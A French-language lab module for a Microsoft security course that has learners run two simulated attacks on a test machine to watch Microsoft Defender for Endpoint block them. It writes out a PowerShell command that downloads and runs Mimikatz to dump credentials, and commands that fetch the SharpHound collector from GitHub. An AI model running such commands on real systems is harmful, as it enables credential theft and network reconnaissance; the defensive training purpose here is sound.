 # Module 2 Démo : atténuation des menaces avec Microsoft Defender pour point de terminaison

**Remarque** : la réussite de cette démonstration dépend de l’exécution correcte de toutes les étapes décrites dans le [document sur les conditions préalables](00-prerequisites.md).

## Attaques simulées

Dans cette tâche, vous allez exécuter deux attaques simulées pour explorer les fonctionnalités de Microsoft Defender for Endpoint.

1. Si vous n’êtes pas déjà sur le portail Microsoft Defender XDR dans votre navigateur, accédez à Microsoft Defender XDR à l’adresse (https://security.microsoft.com) connecté en tant qu’administrateur pour votre locataire.

Vous exécuterez les attaques *simulées* à l’aide de *PowerShell* sur *WIN1* pour explorer les fonctionnalités de Microsoft Defender pour point de terminaison.

`Attack 1: Mimikatz - Credential Dumping`

1. Sur l’ordinateur *WIN1*, tapez **Commande** dans la barre de recherche, puis sélectionnez **Exécuter en tant qu’administrateur**.

1. Copiez et collez la commande suivante dans l’**administrateur : Fenêtre d’invite de commandes**, puis appuyez sur **Entrée** pour l’exécuter.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Vous devez voir un message indiquant que l’*accès est refusé* ainsi qu’un message contextuel de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` affichant les *menaces trouvées*.

1. Quittez l’**administrateur : Fenêtre d’invite de commandes** en tapant **quitter** et en appuyant sur **Entrée**.

`Attack 2: Bloodhound - Collection`

1. Sur l’ordinateur *WIN1*, entrez **PowerShell** dans la barre de recherche, sélectionnez **Windows PowerShell**, puis **Exécuter en tant qu’administrateur**.

1. Copiez et collez les commandes suivantes dans l’**administrateur : Fenêtre Windows PowerShell**, puis appuyez sur **Entrée** pour l’exécuter.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Remarque :** Il est recommandé de copier, coller et exécuter les commandes une par une. Vous pouvez ouvrir *Bloc-notes* et copier les commandes dans un fichier temporaire pour y parvenir. La première commande crée un dossier nommé *ExternalPayloads* dans le même dossier que le dossier *Atomic Red Team*. La deuxième commande télécharge le fichier *SharpHound.ps1* à partir du référentiel GitHub *BloodHound* et l’enregistre dans le dossier *ExternalPayloads*.

1. Un message contextuel s’affiche à partir de `Windows Security Virus and threats protection` affichant les *menaces trouvées*.

1. Copiez et collez la commande suivante dans l’**administrateur : Fenêtre Windows PowerShell**, puis appuyez sur **Entrée** pour l’exécuter.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Si la sortie a la valeur *True*, le fichier de charge utile du programme malveillant n’a pas été supprimé par Microsoft Defender Antivirus. Si la sortie a la valeur *False*, le fichier de charge utile du programme malveillant a été supprimé par Microsoft Defender Antivirus. Utilisez la touche de direction vers le haut pour répéter la commande jusqu’à ce que la sortie soit *False*.

## Vous avez terminé la démonstration.
